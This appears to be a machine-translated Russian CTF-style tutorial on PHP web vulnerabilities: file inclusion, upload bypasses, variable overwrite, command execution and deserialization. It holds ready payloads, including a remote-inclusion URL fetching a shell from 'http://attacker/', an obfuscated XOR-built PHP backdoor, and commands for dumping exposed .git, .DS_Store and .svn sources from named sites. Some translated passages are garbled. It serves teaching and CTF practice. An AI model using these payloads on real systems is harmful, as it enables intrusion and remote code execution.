


PHP
Файл содержит
Общие функции, которые вызывают включение файлов:
- PHP：
include()，include_once()，require()，require_once()，fopen()，readfile() - JSP Servlet：
ava.io.File ()，java.io.FileReader () - ASP：
includefile，includevirtual
Когда PHP включает файл, он будет выполняться как код PHP, независимо от типа файла.
Локальный файл содержит
Локальный файл содержит включение локального файла, LFI.
<?php
$file = $_GET['file'];
if (file_exists('/home/wwwrun/'.$file.'.php')) {
include '/home/wwwrun/'.$file.'.php';
}
?>
В приведенном выше коде содержится локальный файл, а содержимое файла /etc/passwd можно прочитать, усекая %00.
-
%00усечение```text ?file=../../../../../../../../../etc/passwd%00 ``` Требуется `magic_quotes_gpc=off`, PHP менее 5.3.4. -
Усечение длины пути
```text ?file=../../../../../../../../../etc/passwd/././././././.[…]/./././././. ``` Linux требует, чтобы имя файла было длиннее 4096, а Windows должно быть длиннее 256. -
Усечение числа точек
```text ?file = ... / ... // ... // ... // ... / / boot.ini/ ……… [...] ………… ``` Только для Windows количество точек должно быть больше 256.
Удаленный файл содержит
Удаленный файл содержит Remote File Inclusion, RFI.
<?php
if ($route == "share") {
require_once $basePath . "/action/m_share.php";
} elseif ($route == "sharelink") {
require_once $basePath . "/action/m_sharelink.php";
}
?>
Создает значение переменной basePath.
/?basePath=http://attacker/phpshell.txt?
Заключительный код выполнен
require_once "http://attacker/phpshell.txt?/action/m_share.php";
Часть после вопросительного знака интерпретируется как строка запроса URL-адреса, что также является своего рода «усечением».
-
Обычный удаленный файл содержит
```text ?file=[http|https|ftp]://example.com/shell.txt ``` Необходимо `allow_url_fopen=On` и `allow_url_include=On`. -
Использовать ввод потока PHP
```text ?file=php://input ``` Необходимо `allow_url_include=On`. -
Использовать фильтр потока PHP
```text ?file=php://filter/convert.base64-encode/resource=index.php ``` Необходимо `allow_url_include=On`. -
Использовать URI данных
```text ?file=data://text/plain;base64,SSBsb3ZlIFBIUAo= ``` Необходимо `allow_url_include=On`. -
Выполнить с XSS
``` ?file=http://127.0.0.1/path/xss.php?xss=phpcode ``` Необходимо `allow_url_fopen=On`, `allow_url_include=On` и брандмауэру или белому списку не разрешен доступ к внешней сети, сначала найдите уязвимость XSS на том же сайте, включая эту страницу, вы можете ввести вредоносный код.
File Upload
Уязвимость при загрузке файла возникает, когда пользователь загружает исполняемый файл сценария и получает возможность выполнять команды на стороне сервера через этот файл. В большинстве случаев уязвимости загрузки файлов обычно связаны с проблемой загрузки веб-сценария, который может быть проанализирован сервером, так называемой проблемы веб-оболочки. Для завершения этой атаке требуется несколько условий. Во-первых, загруженный файл может быть выполнен WEB-контейнером. Во-вторых, пользователь может получить доступ к файлу из WEB. Наконец, если загруженный файл был изменен проверкой безопасности, форматированием, сжатием изображения и тд. Содержимое может привести к сбою атаки.
Обход проверки загрузки
-
Расширение для проверки передней части
Захватите пакет и обойдите его. -
Тип файла обнаружения
Content-TypeЗахватите пакет, чтобы изменить тип `Content-Type` в соответствии с правилами белого списка. -
Добавить суффикс к серверу
Попробуйте усечение %00. -
Обнаружение расширения сервера
Воспользуйтесь уязвимостью. -
Парсинг Apache
`phpshell.php.rar.rar.rar.rar` Поскольку Apache не знает `.rar` этого типа файла, он перейдет через суффикс к `.php`, а затем подумает, что это файл PHP. -
Разбор IIS
Если имя файла - `abc.asp;xx.jpg` в IIS 6, он будет проанализирован как `abc.asp`. -
Разрешение пути PHP CGI
Когда вы посещаете `http://www.a.com/path/test.jpg/notexist.php`, `test.jpg` будет проанализирован как PHP, а `notexist.php` - несуществующий файл. На данный момент конфигурация Nginx следующая ```nginx location ~ \.php$ { root html; fastcgi_pass 127.0.0.1:9000; fastcgi_index index.php; fastcgi_param SCRIPT_FILENAME /scripts$fastcgi_script_name; include fastcgi_param; } ``` -
другие методы
Регистр суффикса, двойная запись, специальный суффикс, такой как `php5` и тд, Изменяют содержимое пакета в WAF и тд.
Переменный охват
Переопределение глобальной переменной
Неинициализированные переменные, которые могут контролироваться пользователем, могут вызвать проблемы с безопасностью.
register_globals = ON
пример
<?php
echo "Register_globals" . (int)ini_get("register_globals") . "<br/>";
if ($auth) {
echo "private!";
}
?>
Когда register_globals=ON, отправьте test.php?auth=1, автоматически будет назначена переменная auth.
extract() переопределение переменной
Функция extract() может импортировать переменные из массива в текущую таблицу символов, которая определяется как
int extract(array $var_array [, int $extract_type [, string $prefix ]] )
Второй параметр определяет поведение функции при ее импорте в таблицу символов. Два наиболее распространенных значения
- EXTR_OVERWRITE и EXTR_SKIP.
Если значение равно EXTR_OVERWRITE, в процессе импорта переменных в таблицу символов, если имя переменной конфликтует,
все переменные перезаписываются; значение EXTR_SKIP означает пропуск без перезаписи. Если второй параметр не указан,
по умолчанию используется EXTR_OVERWRITE.
<?php
$auth = "0";
extract($_GET);
if ($auth == 1) {
echo "private!";
} else {
echo "public!";
}
?>
Покрытие переменных может возникнуть, когда функция extract() экспортирует переменные из массива, которым может
управлять пользователь.
import_request_variables Переопределение переменной
bool import_request_variables(string $types [, string $prefix])
import_request_variables Импортирует переменные из GET, POST и файлов cookie в глобальный. Используйте эту функцию,
чтобы просто указать тип.
<?php
$auth = "0";
import_request_variables("G");
if ($auth == 1) {
echo "private!";
} else {
echo "public!";
}
?>
import_request_variables("G") указывает переменные, которые будут импортированы в запрос GET, и отправляет тестовое
покрытие test.php?auth=1.
parse_str() переопределение переменной
void parse_str(string $str [, array &$arr ])
Функция parse_str() обычно используется для синтаксического анализа строки запроса в URL-адресе, но когда значение
параметра может контролироваться пользователем, это может вызвать покрытие переменных.
//var.php?var=new variable override
$var = "init";
parse_str($_SERVER["QUERY_STRING"]);
print $var;
Функции, подобные parse_str(), также имеют mb_parse_str().
Выполнение команды
Код прямого исполнения
В PHP есть довольно много функций, которые могут выполнять код напрямую.
eval();
assert();
system();
exec();
shell_exec();
passthru();
escapeshellcmd();
pcntl_exec();
......
preg_replace() Выполнение кода
Первый аргумент preg_replace() разрешает выполнение кода, если присутствует модификатор режима /e.
<?php
$var = "<tag>phpinfo()</tag>";
preg_replace("/<tag>(.*?)</tag>/e", "addslashes(1)", $var);
?>
Если у вас нет модификатора /e, вы можете попробовать усечение %00.
preg_match Выполнение кода
preg_match выполняет сопоставление регулярного выражения, позволяя выполнить код в случае успешного сопоставления.
<?php
include 'flag.php';
if(isset($_GET['code'])){
$code = $_GET['code'];
if(strlen($code)>40){
die("Long.");
}
if(preg_match("/[A-Za-z0-9]+/", $code)){
die("NO.");
}
@eval($code);
}else{
highlight_file(__FILE__);
}
//$hint = "php function getFlag() to get flag";
?>
Этот вопрос — вопрос от мастера сливового вина во время тренировки xman. Эта серия описаний кода выглядит так. Мы
хотим обойти передачу обычных чисел и буквенных строк, таких как AZ, az, 0–9, и преобразовать не буквенно-цифровые
символы в различные преобразования. Можно создать любой символ в az, а длина строки меньше 40. Затем
используйте PHP, чтобы разрешить динамические функции выполнения функций, сшить имя функции, здесь мы getFlag, а
затем динамически выполнить код.
Итак, вопрос, который нам нужно рассмотреть, заключается в том, как передавать различные преобразования, чтобы мы могли
успешно прочитать функцию getFlag и получить веб-оболочку.
Прежде чем мы это поймем, нам сначала нужно понять концепцию XOR ^ в PHP.
Давайте посмотрим на следующий код:
<?php
echo "A" ^ "?";
?>

Мы видим, что на выходе получается символ ~. Причина этого в том, что код A и символ ? выполняются XOR в коде.
В PHP, когда две переменные подвергаются операции XOR, строка сначала преобразуется в значение ASCII, затем
значение ASCII преобразуется в двоичное, а затем выполняется операция XOR, выполняется операция XOR, а результат
преобразуется из двоичного. Станьте значением ASCII и преобразуйте значение ASCII в строку. Операции XOR также
иногда используются для обмена значениями двух переменных.
Как в примере выше
Значение ASCII для A - 65, а соответствующее двоичное значение - 01000001.
Значение ASCII ? равно 63, а соответствующее двоичное значение - 00111111.
Значение двоичного кода исключающего ИЛИ - 01111110, соответствующее значение ASCII - 126, а соответствующее
строковое значение - ~.
Все мы знаем, что PHP - это слабо типизированный язык, то есть в PHP мы можем объявить переменную напрямую и
инициализировать или присвоить ее, не объявляя тип переменной. Именно из-за слабого типа PHP мы неявно конвертируем
переменный тип PHP и используем эту возможность для выполнения некоторых нетрадиционных операций. Если вы
преобразовываете целое число в строку, обрабатываете логическое значение как целое число или обрабатываете строку как
функцию, давайте посмотрим на фрагмент кода:
<?php
function B(){
echo "Hello Angel_Kitty";
}
$_++;
$__= "?" ^ "}";
$__();
?>

Давайте вместе проанализируем приведенный выше код:
$_++;Эта строка кода означает увеличение переменной с именем"_", значения по умолчанию переменной undefined вPHPnull,null == False == 0, мы можем получить число, автоматически увеличивая неопределенную переменную без использования каких-либо чисел.$__= "?" ^ "}";XOR персонажей?and}и получите результатB, присвоенный переменной с именем__(два символа подчеркивания)$__();Благодаря вышеуказанной операции присваивания значение переменной$__равноB, поэтому эту строку можно рассматривать какB(). ВPHPэта строка кода представляет, что функцияBвызывается, поэтому результат -Hello Angel_Kitty. ВPHPмы можем рассматривать строки как функции.
Видя это, я считаю, что если вы видите похожий бэкдор PHP, не стоит так запутываться. Вы можете использовать анализ
предложений кода бэкдора, чтобы понять, какие функции бэкдор хочет выполнять.
Мы хотим использовать этот бэкдор для создания строк, которые обходят обнаружение и полезны для нас, таких, как _POST,
system, call_user_func_array или все, что нам нужно.
Вот очень простой не буквенно-цифровой бэкдор PHP:
<?php
@$_++; // $_ = 1
$__ = ("#" ^ "|"); // $__ = _
$__ .= ("." ^ "~"); // _P
$__ .= ("/" ^ "`"); // _PO
$__ .= ("|" ^ "/"); // _POS
$__ .= ("{" ^ "/"); // _POST
${$__}[!$_](${$__}[$_]); // $_POST[0]($_POST[1]);
?>
Здесь я объясняю, .= - это строковое соединение, подробности см. в синтаксисе PHP.
Мы даже можем объединить приведенный выше код в одну строку, сделав программу менее читаемой, код выглядит следующим образом:
$__ = ("#" ^ "|") . ("." ^ "~") . ("/" ^ "`") . ("|" ^ "/") . ("{" ^ "/");
Оглядываясь назад на вопрос об обучении xman, наша идея состоит в том, чтобы обойти строку символов, построив XOR, так
как же нам построить эту строку так, чтобы длина была меньше 40?
Наконец, мы хотим прочитать функцию getFlag, нам нужно создать _GET для чтения этой функции, мы, наконец, создаем
следующую строку:

Возможно, многие мелкие партнеры до сих пор не могут понять, как устроена эта цепочка. Разберем строку сегмента.
Построить _GET чтение
Прежде всего, мы должны знать, что такое X_GET от XOR. После своих попыток и анализа я пришел к следующему выводу:
<?php
echo "`{{{" ^ "?<>/"; //_GET
?>
В чем смысл этого кода? Из-за ограничения длины в 40 символов веб-оболочки, которые ранее были соединены операцией XOR с
символами, использовать нельзя. Здесь вы можете использовать обратные кавычки ` и Linux под php для
выполнения команды ?
?означает соответствие одного символа`означает выполнение команды`Разбор специальной строки
Поскольку ? может соответствовать только одному символу, этот способ записи означает зацикливание и сопоставление. Мы
разберем его, чтобы увидеть:
<?php
echo "{" ^ "<";
?>

<?php
echo "{" ^ ">";
?>

<?php
echo "{" ^ "/";
?>

Итак, мы можем знать, что _GET устроен следующим образом!
Получить параметр _GET
Как нам получить параметр _GET? Мы можем построить следующую строку:
<?php
echo ${$_}[_](${$_}[__]); //$_GET[_]($_GET[__])
?>
Согласно предыдущей конструкции $_ превратилось в _GET. Естественно, $_ = _GET. Мы создали $_GET[__] для
получения значений параметров.
Входящие параметры
На этом этапе нам просто нужно вызвать функцию getFlag, чтобы получить веб-оболочку, построенную следующим образом:
<?php
echo $_ = getFlag; //getFlag
?>
Итак, подключите все параметры, и все готово.
Результаты приведены ниже:

Итак, мы успешно прочитали флаг!
Динамическое выполнение функции
Пользовательские функции могут привести к выполнению кода.
<?php
$dyn_func = $_GET["dyn_func"];
$argument = $_GET["argument"];
$dyn_func($argument);
?>
Выполнение команды обратной кавычки
<?php
echo `ls -la`;
?>
Фигурный синтаксис
Фигурный синтаксис PHP также может привести к выполнению кода, он выполнит код, заключенный в фигурные скобки, и заменит результаты.
<?php
$var = "aaabbbccc${`ls`}";
?>
<?php
$foobar = "phpinfo";
${"foobar"}();
?>
Функция обратного вызова
Многие функции могут выполнять функции обратного вызова, что вызовет выполнение кода, когда функция обратного вызова управляется пользователем.
<?php
$evil_callback = $_GET["callback"];
$some_array = array(0,1,2,3);
$new_array = array_map($evil_callback, $some_array);
?>
Полезная нагрузка атаки
http://www.a.com/index.php?callback=phpinfo
Десериализация
Если unserialize() определяет функцию __destruct() или __wakeup() во время выполнения, это может вызвать
выполнение кода.
<?php
class Example {
was $var = "";
function __destruct() {
eval($this->var);
}
}
unserialize($_GET["saved_code"]);
?>
Полезная нагрузка атаки
http://www.a.com/index.php?saved_code=O:7:"Example":1:{s:3:"var";s:10:"phpinfo();";}
PHP особенности
Массив
<?php
$var = 1;
$var = array();
$var = "string";
?>
Php не строго проверяет типы входящих переменных, и не может свободно преобразовывать типы.
Например, при сравнении $a == $b
$a = null;
$b = false; // is true
$a = '';
$b = 0; //also true
Тем не менее, разработчики ядра PHP изначально хотели позволить программистам более эффективно развиваться с этой системой, которая не требует деклараций, поэтому многие слабо используемые сравнения и преобразования использовались почти во всех встроенных функциях и базовых структурах, чтобы предотвратить использование программ. . Переменные часто сообщаются неправильно из-за неправильности программиста, но это создает проблемы с безопасностью.
0 == '0' //true
0 == 'abcdefg' //true
0 === 'abcdefg' //false
1 == '1abcdef' //true
Волшебный хеш
"0e132456789" == "0e7124511451155" //true
"0e123456abc" == "0e1dddada" //false
"0e1abc" == "0" //true
Если при выполнении операции сравнения встречается такая строка, как 0e\d+, она анализируется в экспоненциальном
представлении. Таким образом, значения двух чисел в приведенном выше примере равны 0 и, следовательно, равны. Если
шаблон 0e\d+ не выполняется, он не будет равным.
Шестнадцатеричное преобразование
"0x1e240" == "123456" //true
"0x1e240" == 123456 //true
"0x1e240" == "1e240" //false
Когда одна из строк начинается с 0x, PHP разбирает строку в десятичную дробь и затем сравнивает ее. Разбор 0x1240 в
десятичный формат равен 123456, поэтому с типом int и типом string 123456 сравнения одинаковы.
Преобразование типов
Общие преобразования в основном преобразуются int в string, а string в int.
string в int
$var = 5;
Method 1: $item = (string)$var;
Method 2: $item = strval($var);
string превращает функцию int:intval().
Для этой функции вы можете сначала взглянуть на 2 примера.
var_dump(intval('2')) // 2
var_dump(intval('3abcd')) // 3
var_dump(intval('abcd')) // 0
Если указано преобразование intval(), оно будет преобразовано с начала строки, чтобы знать, что встречен нечисловой
символ. Даже если есть строка, которую невозможно преобразовать, intval() не сообщит об ошибке, а вернет 0.
В то же время программистам не следует использовать при программировании следующий код:
if(intval($a)>1000) {
mysql_query("select * from news where id=".$a)
}
В настоящее время значение $a может быть равно 1002 union.
Свободность параметров встроенных функций
Слабость встроенной функции заключается в том, что при вызове функции она передается в тип функции, который функция не может принять. Кратко объясните, или прямо на реальных примерах, чтобы проиллюстрировать проблему, следующее будет сосредоточено на некоторых из этих функций.
md5()
$array1[] = array(
"foo" => "bar",
"bar" => "foo",
);
$array2 = array("foo", "bar", "hello", "world");
var_dump(md5($array1) == md5($array2)); //threaten
Описание функции md5() в руководстве по PHP - string md5(string $str [, bool $raw_output = false ]), а требование
в md5() - параметр строкового типа. Но когда вы передаете массив, md5() не будет сообщать об ошибке, но не сможет
правильно найти значение md5 массива, что приведет к равенству значений md5 любых двух массивов.
strcmp()
Функция strcmp() описана в официальном руководстве по PHP как intstrcmp(string $str1 , string $str2), которому
необходимо передать 2 аргумента типа string в strcmp(). Если str1 меньше str2, он возвращает -1, а равенство
возвращает 0, в противном случае он возвращает 1. Суть функции strcmp() для сравнения строк заключается в
преобразовании двух переменных в ASCII, затем выполнении вычитания и определении возвращаемое значение в зависимости от
результата операции.
Что, если аргумент, который дает strcmp(), является числом?
$array = [1,2,3];
var_dump(strcmp($array, '123')); //null, in a sense null is equivalent to false.
switch()
Если switch() имеет числовой тип, switch преобразует параметры в int следующим образом:
$i = "2abc";
switch($i) {
case 0:
case 1:
case 2:
echo "i is less than 3 but not negative";
break;
case 3:
echo "i is 3";
}
В это время программа выводит i меньше 3, но не отрицательное, потому что функция switch() преобразует $i, и
результат равен 2.
in_array()
В руководстве по PHP функция in_array() интерпретируется
как bool in_array(mixed $needle , array $haystack [, bool $strict = FALSE ]). Если параметр strict не
указан, in_array будет свободным. Сравните, чтобы увидеть, находится ли $needle в $haystack. Когда значение strict
истинно, in_array() сравнивает тип игл с типом в стоге сена.
$array = [0, 1, 2, '3'];
var_dump(in_array('abc', $array)); //true
var_dump(in_array('1bc', $array)); //true
Вы можете видеть, что в приведенном выше случае возвращается true, потому что 'abc' будет преобразовано в 0, а '1bc'
будет преобразовано в 1.
array_search() аналогичен in_array().
Ищем резервную копию исходного кода
hg утечка исходного кода
hg файлы генерируются, когда hg init.
Использование инструмента dvcs-ripper
Утечки исходного кода Git
Каталог .git содержит такие файлы, как записи об изменении кода. Если файлы в этом каталоге доступны при
развертывании, их можно использовать для восстановления исходного кода.
/.git
/.git/HEAD
/.git/index
/.git/config
/.git/description
python GitHack.py http://www.openssl.org/.git/
GitHacker (Восстанавливаемый полный репозиторий Git)
python GitHacker.py http://www.openssl.org/.git/
.DS_Store Утечка файла
Mac OS будет содержать файл .DS_Store, содержащий такую информацию, как имя файла.
Используя инструмент ds_store_exp
python ds_store_exp.py http://hd.zj.qq.com/themes/galaxyw/.DS_Store
hd.zj.qq.com/
└── themes
└── galaxyw
├── app
│ └── css
│ └── style.min.css
├── cityData.min.js
├── images
│ └── img
│ ├── bg-hd.png
│ ├── bg-item-activity.png
│ ├── bg-masker-pop.png
│ ├── btn-bm.png
│ ├── btn-login-qq.png
│ ├── btn-login-wx.png
│ ├── ico-add-pic.png
│ ├── ico-address.png
│ ├── ico-bm.png
│ ├── ico-duration-time.png
│ ├── ico-pop-close.png
│ ├── ico-right-top-delete.png
│ ├── page-login-hd.png
│ ├── pic-masker.png
│ └── ticket-selected.png
└── member
├── assets
│ ├── css
│ │ ├── ace-reset.css
│ │ └── antd.css
│ └── lib
│ ├── cityData.min.js
│ └── ueditor
│ ├── index.html
│ ├── lang
│ │ └── zh-cn
│ │ ├── images
│ │ │ ├── copy.png
│ │ │ ├── localimage.png
│ │ │ ├── music.png
│ │ │ └── upload.png
│ │ └── zh-cn.js
│ ├── php
│ │ ├── action_crawler.php
│ │ ├── action_list.php
│ │ ├── action_upload.php
│ │ ├── config.json
│ │ ├── controller.php
│ │ └── Uploader.class.php
│ ├── ueditor.all.js
│ ├── ueditor.all.min.js
│ ├── ueditor.config.js
│ ├── ueditor.parse.js
│ └── ueditor.parse.min.js
└── static
├── css
│ └── page.css
├── img
│ ├── bg-table-title.png
│ ├── bg-tab-say.png
│ ├── ico-black-disabled.png
│ ├── ico-black-enabled.png
│ ├── ico-coorption-person.png
│ ├── ico-miss-person.png
│ ├── ico-mr-person.png
│ ├── ico-white-disabled.png
│ └── ico-white-enabled.png
└── scripts
├── js
└── lib
└── jquery.min.js
21 directories, 48 files
Файл резервной копии веб-сайта
Администратор неправильно разместил резервную копию в веб-каталоге после резервного копирования файла веб-сайта.
Общие суффиксы:
.rar
.zip
.7z
.tar
.tar.gz
.behind
.txt
Утечка SVN
Конфиденциальные документы:
/.svn
/.svn/wc.db
/.svn/entries
perl rip-svn.pl -v -u http://www.example.com/.svn/
Утечка WEB-INF / web.xml
WEB-INF - это безопасный каталог для веб-приложений Java, и в web.xml есть сопоставления файлов.
WEB-INF в основном содержит следующие файлы или каталоги:
/WEB-INF/web.xml: файл конфигурации веб-приложения, описывающий сервлет и другие правила настройки и именования компонентов приложения./WEB-INF/classes/: содержит все файлы классов, используемые сайтом, включая класс сервлетов и класс не сервлетов, их нельзя включить. В файле jar./WEB-INF/lib/: хранит различные файлы jar, необходимые веб-приложению, и размещает файлы jar, которые требуются только в этом приложении, например файлы jar драйвера базы данных./WEB-INF/src/: исходный каталог, каждый файл java размещается в соответствии со структурой имени пакета./WEB-INF/database.properties: файл конфигурации базы данных.
После нахождения файла web.xml, определения пути к файлу класса и, наконец, непосредственной классификации файла, исходный код веб-сайта получается путем декомпиляции файла класса. В общем, движку jsp по умолчанию запрещен доступ к каталогу WEB-INF. Когда Nginx работает с Tomcat для балансировки нагрузки или кластера, причина проблемы на самом деле очень проста. Nginx не будет рассматривать настройку движков других типов (Nginx не является движком jsp). Проблема безопасности вводится в его собственную спецификацию безопасности (так что связь слишком высока), можно изменить файл конфигурации Nginx для блокировки доступа к каталогу WEB-INF:
Location ~ ^/WEB-INF/* { deny all; } # or return 404; or other!
Утечка CVS
http://url/CVS/Root returns the root information
http://url/CVS/Entries returns the structure of all files
Получить исходный код
bk clone http://url/name dir